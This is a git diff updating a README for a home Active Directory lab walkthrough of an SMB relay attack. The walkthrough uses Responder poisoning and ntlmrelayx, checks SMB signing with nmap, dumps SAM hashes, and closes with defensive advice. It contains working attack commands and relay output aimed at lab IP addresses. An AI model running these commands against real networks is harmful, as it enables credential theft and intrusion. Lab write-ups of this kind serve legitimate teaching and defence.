

Updated the README

diff --git a/AD-Lab/05-Attacks/02-SMB-Relay/README.md b/AD-Lab/05-Attacks/02-SMB-Relay/README.md
@@ -66,13 +66,13 @@ If the legitimate DNS infrastructure does not answer, an attacker on the local n
 
 ### 2.2 Poisoning
 
-Responder answers the victim's request and tells it that the requested host is the attacker's IP:
+Responder answers the request and supplies the attacker's IP address for the requested name:
 
 ```text
 FILESERVER -> 192.168.56.1
 ```
 
-The victim therefore attempts to connect to the attacker.
+The victim therefore attempts to establish the SMB connection with the attacker.
 
 ### 2.3 NTLM authentication
 
@@ -120,26 +120,24 @@ A useful verification command is:
 nmap -Pn -p445 --script smb2-security-mode 192.168.56.20
 ```
 
-Expected relayable configuration:
+The correct scan of CTO produced:
 
 ```text
-Message signing enabled but not required
+Host is up.
+
+445/tcp open microsoft-ds
+
+Host script results:
+| smb2-security-mode:
+|   3:1:1:
+|     Message signing enabled but not required
 ```
 
-### Important note about the captured screenshot
+This confirms that CTO's SMB signing configuration is compatible with the relay scenario.
 
-The supplied Nmap screenshot shows:
+![SMB signing status on CTO](Images/nmap-mode-script.png)
 
-```text
-192.168.56.10
-Message signing enabled and required
-```
-
-That is the **Domain Controller**, not CTO.
-
-Therefore, that screenshot demonstrates the DC's SMB-signing configuration, but it does **not** establish whether `192.168.56.20` is relayable. The relay target must be checked separately.
-
-![SMB security mode check](Images/nmap-mode-script.png)
+> **Important:** The earlier scan against `192.168.56.10` (DC1) showed `Message signing enabled and required`. That was the Domain Controller, not the relay target, so it should not be used as evidence for the relayability of CTO.
 
 ---
 
@@ -148,7 +146,7 @@ Therefore, that screenshot demonstrates the DC's SMB-signing configuration, but 
 The relay listener was started against CTO:
 
 ```bash
-sudo ntlmrelayx.py -t smb://192.168.56.20 -smb2support
+sudo ntlmrelayx.py -tf targets.txt -smb2support
 ```
 
 or, when using a target file:
@@ -206,10 +204,10 @@ Otherwise another SMB service can receive the connection instead of ntlmrelayx.
 Responder was started on the attacker interface:
 
 ```bash
-sudo responder -I eth0 -v
+sudo responder -I <lab-interface> -v
 ```
 
-In the VirtualBox-based lab, the relevant interface was the host-only network interface.
+In the VirtualBox-based lab, the relevant interface is the interface associated with the `192.168.56.0/24` host-only network.
 
 The important configuration is:
 
@@ -296,13 +294,7 @@ for name fileserver.local
 
 This means the poisoning stage is functioning.
 
-The victim believes that the requested SMB host is:
-
-```text
-192.168.56.1
-```
-
-rather than the nonexistent legitimate host.
+The victim receives the spoofed name-resolution response and therefore attempts to establish the SMB connection with `192.168.56.1`.
 
 ![Responder poisoning events](Images/starting-responder-ntlmrelayx.png)
 
@@ -414,6 +406,12 @@ Restoring the disabled state for service RemoteRegistry
 
 ![SAM hash extraction](Images/hash-capt.png)
 
+### Why SAM extraction was possible
+
+The SAM extraction was possible because the relayed `EVIL\ggideon` identity had local administrative privileges on CTO.
+
+SMB relay alone does **not** automatically provide access to the target's SAM database. The relayed account must have sufficient privileges on the target for the requested post-relay operation.
+
 ---
 
 ## 12. Captured SAM Hashes
@@ -466,11 +464,7 @@ The value:
 
 is the standard NT hash associated with an empty password and is commonly seen for disabled/default local accounts in SAM output.
 
-The interesting account in this lab is the custom local account:
-
-```text
-tyrell
-```
+The `tyrell` entry is a custom local account present on the target workstation.
 
 ---
 
@@ -603,38 +597,13 @@ Victim -> ntlmrelayx -> Target
 
 The SAM hashes appeared only after the successful relay was used for the SAM extraction stage.
 
----
+### Connection reset during repeated attempts
 
-## 16. Post-Exploitation Validation
-
-The supplied lab screenshots also show a separate Metasploit `psexec` test against CTO.
-
-The module was configured with:
-
-```text
-RHOST       192.168.56.20
-SMBDomain   evil.corp
-SMBUser     tyrell
-SMBPass     <lab password>
-LHOST       192.168.56.50
-LPORT       4444
-```
-
-and produced:
-
-```text
-Meterpreter session 1 opened
-```
-
-![Metasploit PsExec configuration](Images/msf-psexec.png)
-
-![Successful Meterpreter session](Images/msf-psexec-shell.png)
-
-**Note:** this screenshot demonstrates authenticated PsExec-based execution using a plaintext lab password. It should not be presented as proof that the SAM hash itself was used for Pass-the-Hash. A separate Pass-the-Hash test would be required to demonstrate that technique.
+During repeated authentication attempts, a `ConnectionResetError` was observed after the relay target had already been processed. This occurred during subsequent connections and did not invalidate the successful relay/SAM extraction demonstrated above.
 
 ---
 
-## 17. Attack Summary
+## 16. Attack Summary
 
 The important lesson from this exercise is that **SMB relay is not simply a hash-capture attack**.
 
@@ -668,6 +637,45 @@ The attack demonstrates why organizations should:
 - Restrict administrative access between workstations.
 - Monitor unusual NTLM authentication and SMB activity.
 - Protect and audit privileged accounts.
+
+---
+
+## 17. Attack Validation
+
+The successful run can be validated from the ntlmrelayx output:
+
+```text
+(SMB): Received connection from 192.168.56.30,
+attacking target smb://192.168.56.20
+
+(SMB): Authenticating connection from
+EVIL/GGIDEON@192.168.56.30
+against smb://192.168.56.20 SUCCEED [1]
+
+Target system bootKey: ...
+
+Dumping local SAM hashes
+
+Done dumping SAM hashes for host: 192.168.56.20
+```
+
+This provides evidence for the complete attack path:
+
+```text
+CYDECK
+  ↓
+LLMNR/NBT-NS poisoning
+  ↓
+NTLM authentication
+  ↓
+ntlmrelayx
+  ↓
+CTO
+  ↓
+SAM extraction
+```
+
+No separate Metasploit/PsExec execution is included in this walkthrough because that was a separate authenticated execution test rather than part of the demonstrated SMB relay → SAM extraction chain.
 
 ---
 
